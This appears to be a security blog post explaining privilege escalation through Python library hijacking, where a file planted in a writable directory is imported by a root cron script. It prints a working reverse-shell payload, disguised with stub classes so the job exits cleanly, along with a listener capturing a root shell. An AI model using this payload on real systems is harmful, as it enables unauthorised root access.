 Privilege Escalation - Python Library Hijacking

# Privilege Escalation via Python Library Hijacking

September 11, 2017

Whilst debugging a Python script today, I found that I was unable to execute it, with the stack trace pointing back to the import of the requests library.

	Traceback (most recent call last):
	  File "enum.py", line 1, in <module>
	    import requests
	  File "/usr/local/lib/python2.7/dist-packages/requests/__init__.py", line 84, in <module>
	    from urllib3.contrib import pyopenssl
	  File "/usr/local/lib/python2.7/dist-packages/urllib3/contrib/pyopenssl.py", line 46, in <module>
	    import OpenSSL.SSL
	  File "/usr/lib/python2.7/dist-packages/OpenSSL/__init__.py", line 8, in <module>
	    from OpenSSL import rand, crypto, SSL
	  File "/usr/lib/python2.7/dist-packages/OpenSSL/rand.py", line 11, in <module>
	    from OpenSSL._util import (
	  File "/usr/lib/python2.7/dist-packages/OpenSSL/_util.py", line 6, in <module>
	    from cryptography.hazmat.bindings.openssl.binding import Binding
	  File "/usr/local/lib/python2.7/dist-packages/cryptography/hazmat/bindings/openssl/binding.py", line 13, in <module>
	    from cryptography.exceptions import InternalError
	  File "/usr/local/lib/python2.7/dist-packages/cryptography/exceptions.py", line 7, in <module>
	    from enum import Enum
	  File "/home/rastating/enum.py", line 3, in <module>
	    requests.get()
	AttributeError: 'module' object has no attribute 'get'

After a bit of following through, I found that as the script was named `enum.py`, it was taking precedence over a module named `enum` that the requests library was relying on / trying to import; thus creating a circular reference.

Further digging into this, revealed that Python has a list of search paths for its libraries; meaning there is an opportunity for privilege escalation depending on mis-configurations of the system and how it’s users are using it.

The paths that come configured out of the box on Ubuntu 16.04, in order of priority, are:

- Directory of the script being executed

- /usr/lib/python2.7

- /usr/lib/python2.7/plat-x86_64-linux-gnu

- /usr/lib/python2.7/lib-tk

- /usr/lib/python2.7/lib-old

- /usr/lib/python2.7/lib-dynload

- /usr/local/lib/python2.7/dist-packages

- /usr/lib/python2.7/dist-packages

For other distributions, run the command below to get an ordered list of directories:

	python -c 'import sys; print "\n".join(sys.path)'

If any of these search paths are world writable, it will impose a risk of privilege escalation, as placing a file in one of these directories with a name that matches the requested library will load that file, assuming it’s the first occurrence.

For example, if we have a script that imports the `requests` library, and the `requests` library is stored in `/usr/local/lib/python2.7/dist-packages`. If we create a new file named `requests.py` and place it in any of the six directories that appear in the list above prior to `/usr/local/lib/python2.7/dist-packages`, it would result in the successful hi-jacking of that library.

Realistically speaking, the chances of the default search paths being writable are slim, unless someone with root privileges took some horrible shortcuts (not completely unimaginable).

The more likely scenario, is that someone will place a frequently accessed script in a directory that is world writable and remove write access on the file from all other users.

This may seem OK on the face of it - but due to how Python is searching for libraries, this would open it up for a user to inject their own arbitrary Python code into the application.

For example, let’s say we have a web server, where `/var/www` is owned by `www-data` (not an unheard of configuration), which contains a `root` owned backup script, which is executed every *N* minutes by a cron job:

	$ whoami
	www-data

	$ ls -la .
	total 16
	drwxr-xr-x  3 www-data www-data 4096 Sep 11 23:44 .
	drwxr-xr-x 15 root     root     4096 Sep 11 23:40 ..
	-rw-r--r--  1 root     root      353 Sep 11 23:44 backup.py
	drwxr-xr-x  2 www-data www-data 4096 Sep 11 23:42 html

	$ cat backup.py
	#!/usr/bin/env python
	import os
	import zipfile

	def zipdir(path, ziph):
	    for root, dirs, files in os.walk(path):
	        for file in files:
	            ziph.write(os.path.join(root, file))

	if __name__ == '__main__':
	    zipf = zipfile.ZipFile('/var/backups/website.zip', 'w', zipfile.ZIP_DEFLATED)
	    zipdir('/var/www/html', zipf)
	    zipf.close()

As can be seen in the output above, `backup.py` cannot be altered by the low privilege account, `www-data`. However, as it is importing libraries (the `os` and `zipfile` libraries to be specific), we can gain privilege escalation by hi-jacking one of these libraries.

If we wanted to gain remote access, we could create a new file, as `www-data` in the same directory as `backup.py`, named `zipfile.py`, with the following content:

	import os
	import pty
	import socket

	lhost = "10.2.0.3"
	lport = 4444

	ZIP_DEFLATED = 0

	class ZipFile:
	    def close(*args):
	        return

	    def write(*args):
	        return

	    def __init__(self, *args):
	        return

	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((lhost, lport))
	os.dup2(s.fileno(),0)
	os.dup2(s.fileno(),1)
	os.dup2(s.fileno(),2)
	os.putenv("HISTFILE",'/dev/null')
	pty.spawn("/bin/bash")
	s.close()

Within this file, we have the code to gain a reverse shell (taken from [python-pty-shells](https://github.com/infodox/python-pty-shells/)), but also an additional dummy class and constant, to make the file compatible with the program that is calling it.

By adding the dummy class and constant, we ensure that no errors will be logged and that the calling program exits cleanly.

The next time the cron job runs, `backup.py` will load our version of the `zipfile` library, due to it appearing first in the search paths (as the current directory **always** comes first), and subsequently execute our payload with elevated privileges:

	root@kali:~# ncat -v -l -p 4444
	Ncat: Version 7.60 ( https://nmap.org/ncat )
	Ncat: Generating a temporary 1024-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
	Ncat: SHA-1 fingerprint: 0F4F BD69 EB85 CB0A 0663 CEDB 8A12 4110 CEDD 7412
	Ncat: Listening on :::4444
	Ncat: Listening on 0.0.0.0:4444
	Ncat: Connection from 10.2.0.1.
	Ncat: Connection from 10.2.0.1:52898.
	root:/var/www# ls -la .
	ls -la .
	total 24
	drwxr-xr-x  3 www-data www-data 4096 Sep 12 00:26 .
	drwxr-xr-x 15 root     root     4096 Sep 11 23:40 ..
	-rw-r--r--  1 root     root      353 Sep 11 23:44 backup.py
	drwxr-xr-x  2 www-data www-data 4096 Sep 11 23:42 html
	-rw-r--r--  1 www-data www-data  434 Sep 12 00:26 zipfile.py
	-rw-r--r--  1 root     root     1097 Sep 12 00:26 zipfile.pyc
	root:/var/www# id
	id
	uid=0(root) gid=0(root) groups=0(root)
	root:/var/www#

 [#python](https://rastating.github.io/tags#python)  [#privilege escalation](https://rastating.github.io/tags#privilege+escalation)  [#privesc](https://rastating.github.io/tags#privesc)  [#library hijack](https://rastating.github.io/tags#library+hijack)

* * *
